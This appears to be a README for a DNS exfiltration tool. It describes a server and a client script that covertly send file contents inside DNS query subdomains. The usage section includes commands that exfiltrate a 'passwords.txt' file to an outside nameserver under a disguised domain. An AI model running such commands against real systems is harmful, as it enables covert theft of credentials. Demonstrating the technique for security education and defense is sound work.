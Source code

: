 ## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```bash
python3 ./server.py -o output.txt
``` 

Pro Server Options

```bash
python3 ./server.py -o output.txt -p 53
```

The server will start listening on port `53` for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```bash
python3 ./client.py -d "google.com" -f "passwords.txt"
```

Pro Client Options

```bash
python3 client.py -d legitimate-domain.com -f passwords.txt -p 53 --nameserver 10.10.166.126
```

In this example, `legitimate-domain.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

![](https://i.imgur.com/f2D0Z7p.png)

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.